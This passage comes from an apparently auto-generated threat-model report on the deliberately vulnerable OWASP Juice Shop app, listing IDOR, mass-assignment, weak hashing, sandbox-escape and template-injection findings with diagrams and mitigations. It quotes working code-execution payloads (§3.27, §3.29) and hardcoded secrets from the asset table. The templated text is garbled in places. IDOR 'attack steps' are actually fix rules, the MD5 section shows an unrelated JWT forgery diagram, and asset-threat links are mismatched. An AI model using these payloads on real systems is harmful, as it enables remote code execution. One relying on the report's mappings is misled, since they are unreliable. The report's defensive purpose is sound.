        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-021](#f-021) — Insecure Direct Object Reference — `routes/payment.ts:70` is exploitable at `routes/payment.ts:70` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.21 Insecure Direct Object Reference — routes/wallet.ts:12

**Source:** 🔴 [F-022](#f-022) — `routes/wallet.ts:12`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-022](#f-022) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/wallet.ts:12`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/wallet.ts:12
    Attacker->>App: Crafted request exercising the weakness at routes/wallet.ts line 12
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-022
        Attacker->>App: Crafted request exploiting F-022 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-022](#f-022) — Insecure Direct Object Reference — `routes/wallet.ts:12` is exploitable at `routes/wallet.ts:12` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.22 Insecure Direct Object Reference — routes/wallet.ts:24

**Source:** 🔴 [F-023](#f-023) — `routes/wallet.ts:24`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-023](#f-023) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/wallet.ts:24`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/wallet.ts:24
    Attacker->>App: Crafted request exercising the weakness at routes/wallet.ts line 24
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-023
        Attacker->>App: Crafted request exploiting F-023 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-023](#f-023) — Insecure Direct Object Reference — `routes/wallet.ts:24` is exploitable at `routes/wallet.ts:24` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.23 Insecure Direct Object Reference — routes/wallet.ts:27

**Source:** 🔴 [F-024](#f-024) — `routes/wallet.ts:27`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-024](#f-024) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/wallet.ts:27`.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/wallet.ts:27
    Attacker->>App: Crafted request exercising the weakness at routes/wallet.ts line 27
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-024
        Attacker->>App: Crafted request exploiting F-024 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-017 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization) lands, 🔴 [F-024](#f-024) — Insecure Direct Object Reference — `routes/wallet.ts:27` is exploitable at `routes/wallet.ts:27` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce object-level (ownership) authorization)

### 3.24 Mass-assignment of role field enables privilege escalation…

**Source:** 🔴 [F-025](#f-025) — `models/user.ts:80`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Tampering. See [§8 F-025](#f-025) for the full register row.

**Attack Steps**

1. The `UserModel` declares the `role` field at `models/user.ts:80` with a `validate.isIn` constraint but no setter-side block that prevents external callers from supplying the field.
2. Any route handler that calls `UserModel.create(req.body)` or `UserModel.update(req.body, { where: { id: userId } })` without explicitly excluding the `role` key will persist an attacker-supplied role value (e.g., `role: 'admin'`).
3. The `set()` handler at line 86 reads the role value to adjust the profile image but does NOT reject or sanitize the incoming role - it only updates `profileImage` as a side-effect.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: data-persistence - models/user.ts:80
    Attacker->>App: Crafted request exercising the weakness at models/user.ts line 80
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-915
    alt Current state — F-025
        Attacker->>App: Crafted request exploiting F-025 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-018 — Enforce server-side field allowlist before every Sequelize U
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-018](#m-018) (Enforce server-side field allowlist before every Sequelize U) lands, 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation — `models/user.ts:80` is exploitable at `models/user.ts:80` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-018](#m-018) (Enforce server-side field allowlist before every Sequelize User write to exclude the role field)

### 3.25 Payment card number stored as unencrypted INTEGER — models/…

**Source:** 🔴 [F-026](#f-026) — `models/card.ts:39`

Severity **Critical** ([CWE-312](https://cwe.mitre.org/data/definitions/312.html)). STRIDE: Information Disclosure. See [§8 F-026](#f-026) for the full register row.

**Attack Steps**

1. The `Card` model at `models/card.ts:39` declares `cardNum` as `DataTypes.INTEGER`.
2. The full 16-digit PAN is stored in the SQLite database without any encryption, masking, or tokenization.
3. A read of the `Cards` table - via SQLi, a compromised admin session querying `/api/Cards`, or direct access to the SQLite file at `data/juiceshop.sqlite` - exposes complete card numbers for all users.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: data-persistence - models/card.ts:39
    Attacker->>App: Crafted request exercising the weakness at models/card.ts line 39
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-312
    alt Current state — F-026
        Attacker->>App: Crafted request exploiting F-026 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-019 — Stop storing sensitive data in cleartext
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❷ [M-019](#m-019) (Stop storing sensitive data in cleartext) lands, 🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER — `models/card.ts:39` is exploitable at `models/card.ts:39` (Critical-severity, [CWE-312](https://cwe.mitre.org/data/definitions/312.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-019](#m-019) (Stop storing sensitive data in cleartext)

### 3.26 MD5 password hashing without salt — models/user.ts:77

**Source:** 🔴 [F-027](#f-027) — `models/user.ts:77`

Severity **Critical** ([CWE-916](https://cwe.mitre.org/data/definitions/916.html)). STRIDE: Information Disclosure. See [§8 F-027](#f-027) for the full register row.

**Attack Steps**

1. The `User.password` setter at `models/user.ts:77` stores passwords via `security.hash(clearTextPassword)` which computes an unsalted `MD5` digest.
2. `MD5` produces a 128-bit output crackable against large wordlists via GPU-accelerated rainbow tables in seconds to minutes for common passwords.
3. An attacker who gains read access to the SQLite file (through the intentional SQLi at `routes/login.ts:34`, a path traversal, or backup exposure) recovers plaintext passwords for the majority of user accounts.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: data-persistence - models/user.ts:77
    Attacker->>Attacker: Craft JWT with header alg=none and admin claims
    Attacker->>App: Crafted HTTP request to the affected endpoint with the unsigned token in Authorization
    App->>App: Validate token without pinning the signing algorithm
    App-->>Attacker: 200 OK - request authorised under forged admin identity
    alt Current state — F-027
        Attacker->>App: Crafted request exploiting F-027 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-020 — Hash passwords with a strong, salted algorithm
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-020](#m-020) (Hash passwords with a strong, salted algorithm) lands, 🔴 [F-027](#f-027) — MD5 password hashing without salt — `models/user.ts:77` is exploitable at `models/user.ts:77` (Critical-severity, [CWE-916](https://cwe.mitre.org/data/definitions/916.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-020](#m-020) (Hash passwords with a strong, salted algorithm)

### 3.27 VM Sandbox Escape — routes/b2bOrder.ts:23

**Source:** 🔴 [F-028](#f-028) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-028](#f-028) for the full register row.

**Attack Steps**

1. `routes/b2bOrder.ts:19` extracts `body.orderLinesData` with no structural validation and passes it to `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` at line 23.
2. The `notevil` sandbox wraps arithmetic-expression evaluation but is defeatable via prototype pollution: a payload such as `{}.constructor.constructor('return process')()` or a chain that writes to `Object.prototype.__defineGetter__` can escape the sandbox context and access the Node\.js `process` global.
3. Once outside the sandbox, the attacker has arbitrary server-side code execution at the privilege level of the Node\.js process.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: b2b-api - routes/b2bOrder.ts:23
    Note over Sandbox: Eval / VM context
    Attacker->>API: Crafted HTTP request to the affected endpoint with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-028
        Attacker->>API: Crafted request exploiting F-028 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-021 — Remove server-side evaluation of untrusted input
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-021](#m-021) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-028](#f-028) — VM Sandbox Escape — `routes/b2bOrder.ts:23` is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-021](#m-021) (Remove server-side evaluation of untrusted input)

### 3.28 Mass Assignment to role Field in User Registration — server…

**Source:** 🔴 [F-029](#f-029) — `server.ts:419`

Severity **Critical** ([CWE-915](https://cwe.mitre.org/data/definitions/915.html)). STRIDE: Elevation of Privilege. See [§8 F-029](#f-029) for the full register row.

**Attack Steps**

1. `POST /api/Users` is the open registration endpoint.
2. The route handler at `server.ts:407-421` validates that `email`, `password`, and `passwordRepeat` are non-empty, then passes the entire `req.body` to the finale-rest auto-generated handler which calls `UserModel.create(req.body)`.
3. The `User` Sequelize model includes a `role` field.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - server.ts:419
    Attacker->>App: Crafted request exercising the weakness at server.ts line 419
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-915
    alt Current state — F-029
        Attacker->>App: Crafted request exploiting F-029 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-022 — Exclude role field from user registration body before model
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-022](#m-022) (Exclude role field from user registration body before model ) lands, 🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration — `server.ts:419` is exploitable at `server.ts:419` (Critical-severity, [CWE-915](https://cwe.mitre.org/data/definitions/915.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-022](#m-022) (Exclude role field from user registration body before model creation)

### 3.29 Server-Side Template Injection — routes/userProfile.ts:62

**Source:** 🔴 [F-030](#f-030) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-95](https://cwe.mitre.org/data/definitions/95.html)). STRIDE: Elevation of Privilege. See [§8 F-030](#f-030) for the full register row.

**Attack Steps**

1. An authenticated attacker sets their username to a string matching the pattern `#{<expression>}`, such as `#{process.mainModule.require('child_process').execSync('id').toString()}`.
2. When any authenticated user visits `/profile`, `userProfile.ts:55` detects the `#{…}` pattern, extracts `<expression>` at line 57, and passes it to `eval(code)` at line 62.
3. This eval executes in the full Node\.js context - not inside a sandbox - with access to all process-level globals.

**Sequence Diagram**

```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/userProfile.ts:62
    Attacker->>App: Crafted request exercising the weakness at routes/userProfile.ts line 62
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-95
    alt Current state — F-030
        Attacker->>App: Crafted request exploiting F-030 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-023 — Remove server-side evaluation of untrusted input
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-023](#m-023) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-030](#f-030) — Server-Side Template Injection — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-95](https://cwe.mitre.org/data/definitions/95.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-023](#m-023) (Remove server-side evaluation of untrusted input)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="6%" style="width:6%"><col width="12%" style="width:12%"><col width="29%" style="width:29%"><col width="33%" style="width:33%"></colgroup>
<thead><tr><th>Asset</th><th>ID</th><th>Classification</th><th>Description</th><th>Linked Threats</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere">JWT Signing Private Key (RSA 1024-bit)</td><td style="white-space:nowrap">A-002</td><td>Restricted</td><td>1024-bit RSA private key hardcoded in <code>lib/insecurity.ts:23</code> and committed to the public GitHub repository. Possession allows offline forgery of arbitrary JWT tokens including admin-level tokens. Permanently compromised.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — Hardcoded RSA private key enables arbitrary JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-004">F-004</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-036">F-036</a> — MD5 password hashing enables offline credential recovery (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-037">F-037</a> — MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-050">F-050</a> — JWT token cookie set without HttpOnly or Secure flags (<code>lib/insecurity.ts:195</code>)<br/>🟠 <a href="#f-051">F-051</a> — Sensitive Information Exposure (<code>server.ts:208</code>)<br/>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>🔴 <a href="#f-053">F-053</a> — Use of Hard-coded Cryptographic Key (<code>lib/insecurity.ts:44</code>)<br/>🟠 <a href="#f-054">F-054</a> — Incorrect Permission Assignment (<code>codeql-analysis.yml:1</code>)<br/>🟠 <a href="#f-058">F-058</a> — TOTP secret stored in plaintext (<code>models/user.ts:113</code>)<br/>🟠 <a href="#f-060">F-060</a> — CTF Flag Broadcast to All Connected Sockets (<code>lib/challengeUtils.ts:71</code>)<br/>🟠 <a href="#f-066">F-066</a> — JWT role claim elevation (<code>lib/insecurity.ts:54</code>)<br/>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>🟠 <a href="#f-073">F-073</a> — ZIP Path Traversal (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Payment Card Numbers</td><td style="white-space:nowrap">A-004</td><td>Restricted</td><td>Credit/debit card numbers stored as plain INTEGER in the SQLite Card model (<code>models/card.ts</code>). No encryption at rest. Accessible via SQL injection or direct data export.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — SQL Injection in login query (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL Injection in Product Search Route (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-008">F-008</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-009">F-009</a> — Insecure Direct Object Reference (<code>routes/address.ts:18</code>)<br/>🔴 <a href="#f-010">F-010</a> — Insecure Direct Object Reference (<code>routes/address.ts:29</code>)<br/>🔴 <a href="#f-011">F-011</a> — Insecure Direct Object Reference (<code>routes/dataExport.ts:26</code>)<br/>🔴 <a href="#f-012">F-012</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:25</code>)<br/>🔴 <a href="#f-013">F-013</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:30</code>)<br/>🔴 <a href="#f-014">F-014</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:35</code>)<br/>🔴 <a href="#f-015">F-015</a> — Insecure Direct Object Reference (<code>routes/memory.ts:15</code>)<br/>🔴 <a href="#f-016">F-016</a> — Insecure Direct Object Reference (<code>routes/order.ts:142</code>)<br/>🔴 <a href="#f-017">F-017</a> — Insecure Direct Object Reference (<code>routes/order.ts:144</code>)<br/>🔴 <a href="#f-018">F-018</a> — Insecure Direct Object Reference (<code>routes/order.ts:151</code>)<br/>🔴 <a href="#f-019">F-019</a> — Insecure Direct Object Reference (<code>routes/payment.ts:21</code>)<br/>🔴 <a href="#f-020">F-020</a> — Insecure Direct Object Reference (<code>routes/payment.ts:41</code>)<br/>🔴 <a href="#f-021">F-021</a> — Insecure Direct Object Reference (<code>routes/payment.ts:70</code>)<br/>🔴 <a href="#f-022">F-022</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:12</code>)<br/>🔴 <a href="#f-023">F-023</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:24</code>)<br/>🔴 <a href="#f-024">F-024</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:27</code>)<br/>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>🟠 <a href="#f-038">F-038</a> — Insecure Direct Object Reference (<code>routes/basketItems.ts:68</code>)<br/>🟠 <a href="#f-039">F-039</a> — Insecure Direct Object Reference (<code>routes/delivery.ts:34</code>)<br/>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>🔴 <a href="#f-044">F-044</a> — Stored XSS (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-045">F-045</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-058">F-058</a> — TOTP secret stored in plaintext (<code>models/user.ts:113</code>)<br/>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>🔴 <a href="#f-068">F-068</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>🟠 <a href="#f-072">F-072</a> — Insecure Direct Object Reference (<code>models/relations.ts:22</code>)<br/>🔴 <a href="#f-078">F-078</a> — DOM-based XSS (<code>index.ts:126</code>)<br/>🟡 <a href="#f-087">F-087</a> — No query timeout in Sequelize SQLite configuration (<code>models/index.ts:30</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Hardcoded HMAC and Cookie Secrets</td><td style="white-space:nowrap">A-010</td><td>Restricted</td><td>HMAC signing key (pa4qacea4VK9t9nGv7yZtwmj at <code>lib/insecurity.ts:44</code>) and cookie-parser secret (kekse at <code>server.ts:289</code>) committed to the public repository. Used for token generation and session cookie signing. Permanently compromised.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-001">F-001</a> — Insecure Storage of Sensitive Information (<code>last-login-ip.component.ts:34</code>)<br/>🔴 <a href="#f-003">F-003</a> — Hardcoded RSA private key enables arbitrary JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🔴 <a href="#f-004">F-004</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-035">F-035</a> — Weak Password Recovery Mechanism (<code>routes/resetPassword.ts:41</code>)<br/>🟠 <a href="#f-036">F-036</a> — MD5 password hashing enables offline credential recovery (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-037">F-037</a> — MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-050">F-050</a> — JWT token cookie set without HttpOnly or Secure flags (<code>lib/insecurity.ts:195</code>)<br/>🟠 <a href="#f-051">F-051</a> — Sensitive Information Exposure (<code>server.ts:208</code>)<br/>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>🔴 <a href="#f-053">F-053</a> — Use of Hard-coded Cryptographic Key (<code>lib/insecurity.ts:44</code>)<br/>🟠 <a href="#f-058">F-058</a> — TOTP secret stored in plaintext (<code>models/user.ts:113</code>)<br/>🟠 <a href="#f-060">F-060</a> — CTF Flag Broadcast to All Connected Sockets (<code>lib/challengeUtils.ts:71</code>)<br/>🟠 <a href="#f-066">F-066</a> — JWT role claim elevation (<code>lib/insecurity.ts:54</code>)<br/>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>🟠 <a href="#f-073">F-073</a> — ZIP Path Traversal (<code>routes/fileUpload.ts:44</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User Credentials (email + <code>MD5</code> password hash)</td><td style="white-space:nowrap">A-001</td><td>Confidential</td><td>User email addresses and <code>MD5</code>-hashed passwords stored in the SQLite User model. <code>MD5</code> is reversible via rainbow tables — effective cleartext. Targeted by SQL injection and data export vulnerabilities.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — SQL Injection in login query (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-005">F-005</a> — OAuth-Derived Predictable Password (<code>oauth.component.ts:30</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL Injection in Product Search Route (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-027">F-027</a> — MD5 password hashing without salt (<code>models/user.ts:77</code>)<br/>🟠 <a href="#f-031">F-031</a> — Rate Limit Bypass (<code>server.ts:346</code>)<br/>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-036">F-036</a> — MD5 password hashing enables offline credential recovery (<code>lib/insecurity.ts:43</code>)<br/>🟠 <a href="#f-037">F-037</a> — MD5 Password Hashing Without Salt (<code>lib/insecurity.ts:43</code>)<br/>🔴 <a href="#f-044">F-044</a> — Stored XSS (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-045">F-045</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-061">F-061</a> — Missing Anti-Automation / Rate Limiting (<code>server.ts:594</code>)<br/>🔴 <a href="#f-078">F-078</a> — DOM-based XSS (<code>index.ts:126</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Session Tokens (JWT)</td><td style="white-space:nowrap">A-003</td><td>Confidential</td><td><code>RS256</code> JWT tokens issued on login and stored in browser localStorage. Contain user ID, role, and email in the payload. XSS-accessible from any script on the page domain. Cannot be revoked server-side.</td><td style="overflow-wrap:anywhere">🟠 <a href="#f-001">F-001</a> — Insecure Storage of Sensitive Information (<code>last-login-ip.component.ts:34</code>)<br/>🔴 <a href="#f-004">F-004</a> — Insecure JWT Verification (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>🟠 <a href="#f-033">F-033</a> — OAuth Implicit Flow with No State Validation (<code>app.routing.ts:262</code>)<br/>🔴 <a href="#f-044">F-044</a> — Stored XSS (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-045">F-045</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-058">F-058</a> — TOTP secret stored in plaintext (<code>models/user.ts:113</code>)<br/>🟠 <a href="#f-066">F-066</a> — JWT role claim elevation (<code>lib/insecurity.ts:54</code>)<br/>🔴 <a href="#f-078">F-078</a> — DOM-based XSS (<code>index.ts:126</code>)<br/>🟡 <a href="#f-080">F-080</a> — Released Docker Images Lack SLSA Provenance Attestation (<code>release.yml:50</code>)<br/>🔴 <a href="#f-083">F-083</a> — Improper Verification of Cryptographic Signature (<code>release.yml:1</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">User PII (addresses, TOTP secrets, security answers)</td><td style="white-space:nowrap">A-005</td><td>Confidential</td><td>User personally identifiable information including delivery addresses, TOTP secrets (totpSecret field), security question answers (SecurityAnswer model), and wallet balances. Stored unencrypted in SQLite.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — SQL Injection in login query (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL Injection in Product Search Route (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-008">F-008</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-009">F-009</a> — Insecure Direct Object Reference (<code>routes/address.ts:18</code>)<br/>🔴 <a href="#f-010">F-010</a> — Insecure Direct Object Reference (<code>routes/address.ts:29</code>)<br/>🔴 <a href="#f-011">F-011</a> — Insecure Direct Object Reference (<code>routes/dataExport.ts:26</code>)<br/>🔴 <a href="#f-012">F-012</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:25</code>)<br/>🔴 <a href="#f-013">F-013</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:30</code>)<br/>🔴 <a href="#f-014">F-014</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:35</code>)<br/>🔴 <a href="#f-015">F-015</a> — Insecure Direct Object Reference (<code>routes/memory.ts:15</code>)<br/>🔴 <a href="#f-016">F-016</a> — Insecure Direct Object Reference (<code>routes/order.ts:142</code>)<br/>🔴 <a href="#f-017">F-017</a> — Insecure Direct Object Reference (<code>routes/order.ts:144</code>)<br/>🔴 <a href="#f-018">F-018</a> — Insecure Direct Object Reference (<code>routes/order.ts:151</code>)<br/>🔴 <a href="#f-019">F-019</a> — Insecure Direct Object Reference (<code>routes/payment.ts:21</code>)<br/>🔴 <a href="#f-020">F-020</a> — Insecure Direct Object Reference (<code>routes/payment.ts:41</code>)<br/>🔴 <a href="#f-021">F-021</a> — Insecure Direct Object Reference (<code>routes/payment.ts:70</code>)<br/>🔴 <a href="#f-022">F-022</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:12</code>)<br/>🔴 <a href="#f-023">F-023</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:24</code>)<br/>🔴 <a href="#f-024">F-024</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:27</code>)<br/>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-035">F-035</a> — Weak Password Recovery Mechanism (<code>routes/resetPassword.ts:41</code>)<br/>🟠 <a href="#f-038">F-038</a> — Insecure Direct Object Reference (<code>routes/basketItems.ts:68</code>)<br/>🟠 <a href="#f-039">F-039</a> — Insecure Direct Object Reference (<code>routes/delivery.ts:34</code>)<br/>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>🔴 <a href="#f-044">F-044</a> — Stored XSS 